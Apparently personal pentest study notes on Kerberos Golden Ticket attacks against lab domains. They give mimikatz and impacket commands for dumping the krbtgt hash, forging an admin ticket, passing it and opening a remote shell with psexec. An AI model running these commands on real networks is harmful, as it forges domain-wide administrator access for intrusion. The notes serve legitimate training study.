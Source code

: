 # 🥇 Golden Ticket Attacks

<figure><img src="../../../.gitbook/assets/Golden Ticket Attacks (1).png" alt=""><figcaption></figcaption></figure>

Here we have the hash for kerberos ticket granting ticket with which we can gernerate ktgt.

*   Run mimikatz and `privilege::debug`

    <figure><img src="../../../.gitbook/assets/Golden Ticket Attacks-1.png" alt=""><figcaption></figcaption></figure>
* `lsadump::lsa /inject /name:krbtgt` and copy these 2 into notepad for later use

<figure><img src="../../../.gitbook/assets/Golden Ticket Attacks-2.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-3537832060-1456167142-1983014419 /krbtgt:b72f4a5ed9bef0f6a0ec3d4b5a4e4320 /id:500 /ptt
```
{% endcode %}

* user can be anything
* rid is 500 for admin
* ptt means pass the ticket&#x20;

<figure><img src="../../../.gitbook/assets/Golden Ticket Attacks-3.png" alt=""><figcaption></figcaption></figure>

* We can access other computers on network `dir \\THEPUNISHER\c$`&#x20;

<figure><img src="../../../.gitbook/assets/Golden Ticket Attacks-4.png" alt=""><figcaption></figcaption></figure>

* `psexec.exe \\THEPUNISHER cmd.exe` to get a shell

## Linux

1. Since we have the krbtgt we can do a golden ticket attack: `krbtgt:819af826bb148e603acb0f33d17632f8`
2. We need domain-sid so using powersploit: _Powershell_:

```
Get-DomainSID -Domain htb.local
```

_Linux_:

```
lookupsid.py CORP/jen@192.168.203.74
```

Now using this info with impacket _ticketer_ to get the golden ticket:

```
ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local user
```

Putting the ticket in our environment variable:

```
export KRB5CCNAME=DoesNotExist.ccache
```

**Note:** before psexec check if dns and time is configured properly

```
psexec.py -debug htb.local/administrator@forest -k -no-pass
```
